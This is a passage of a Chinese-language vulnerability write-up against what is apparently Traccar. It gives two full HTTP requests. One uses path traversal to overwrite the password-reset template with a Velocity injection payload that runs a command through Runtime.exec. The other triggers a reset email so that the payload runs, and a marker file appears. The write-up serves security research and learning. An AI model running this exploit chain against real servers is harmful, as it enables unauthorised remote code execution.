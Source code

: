 一番寻找后锁定了`.\templates\full\passwordReset.vm`作为我的目标

掏出我珍藏的 velocity payload，将如下请求的 cookie 修改为有效 cookie 后发送，检查会发现 passwordReset.vm 被成功覆盖

```plain
POST /api/server/file/..%2ftemplates%2ffull%2fpasswordReset.vm HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: image/jpeg
Content-Length: 376
Connection: close
Cookie: JSESSIONID=Vaild_Cookie

#set($subject = "Password reset")
<!DOCTYPE html>
<html>
<body>
To reset password please click on the following link:<br>
<a href="$webUrl/reset-password?passwordReset=$token">$webUrl/reset-password?passwordReset=$token</a><br>
</body>
</html>


#set ($exp = "exp");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("cmd.exe /c echo aaa > pwn.txt");
```

接着将如下请求的 cookie 修改为有效 cookie，将 email 修改为创建账号的 email 后发送

```plain
POST /api/password/reset HTTP/1.1
Host: 192.168.109.155:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.109.155:8082/settings/preferences
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 18
Origin: http://192.168.109.155:8082
Connection: close
Cookie: JSESSIONID=Vaild_Cookie

email=YOUR_Login_Email
```

检查安装目录（windows 默认安装在 C:\\Program Files\\Traccar 下），成功生成 pwn.txt

## 3.总结

新人的练手作品，如果哪里有问题还希望各位师傅多多指点，SALUTE！
